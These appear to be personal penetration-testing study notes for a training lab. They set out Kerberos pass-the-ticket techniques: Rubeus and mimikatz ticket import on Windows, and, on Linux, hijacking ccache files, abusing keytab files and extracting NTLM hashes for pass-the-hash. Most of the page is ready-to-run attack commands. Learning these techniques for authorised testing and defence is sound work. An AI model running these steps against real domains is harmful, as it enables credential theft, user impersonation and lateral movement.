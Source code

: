 Rubeus
- `Rubeus.exe asktgt /domain: /user: /[type] /ptt`
	- `[type]` would be hash type such as `/rc4:`
- Use a `.kirbi` ticket exported from mimikatz.exe (see `Export Kerberos Tickets`)
	- `Rubeus.exe ptt /ticket:[value]` 
	- `[value]` is from mimikatz output. Example:
	- `/ticket:[0;6c680]-2-0-40e10000-user@domain.kirbi`
- OR convert `.kirbi` ticket to a base64 string
	- Powershell `[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))`
	- Once you get the base64 string: `Rubeus.exe ptt /ticket:[string]`
- To PTT to another remote host and open PowerShell:
	- `Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show`
	- this will open a new cmd window, and we can execute Rubeus again in that window to request a new TGT with the `/ptt` option to import the ticket from our current session to the DC or target machine:
	- `Rubeus.exe asktgt /user: /domain: /[hash value]` -> `powershell` -> `Enter-PSSession -ComputerName [name]`

## Pass the Ticket (Linux)

### If there is a Linux machine in the domain:

keytab files and `ccache` files are two ways Linux machines store and use Kerberos credentials
- When you discover their owners, check the owner's domain permissions with `id [user@domain]` to see if they have Domain Admin permissions

Use `realm list` on the Linux machine to identify the domain it is joined to
	- if `realm` is not available, you can check for `sssd` and `winbind` in the running services
	- `ps -ef | grep -i "winbind"`
	- `crontab -l` and search for the word `kinit` to indicate Kerberos activity

Finding ccache files
- `ccache` files in Linux are usually stored in `/tmp` and in the environment variable `KRB5CCNAME`.
	- `env | grep -i krb5` 
	- view the permissions for them after you discover them

Abusing ccache files
- navigate to root directory on target machine (as root)
- `cp [ccache file] .`
- `export KRB5CCNAME=[path to ccache copy]`
- `klist` to check permissions.
- `smbclient //[domain controller]/[directory] -k -c ls -no-pass`

Finding keytab files
- Search for files with the word `keytab`
	- `find / -name *keytab* -ls 2>/dev/null`

Abusing KeyTab (krb5) Files
- You can impersonate a user by discovering KeyTab files
- `klist -k -t [path to keytab]`
- use `klist` again to confirm your access
- use `smbclient` or something to access their files
-  `python3 keytabextract.py [.keytab file]`
	- will extract NTLM hashes that can be used for PTH

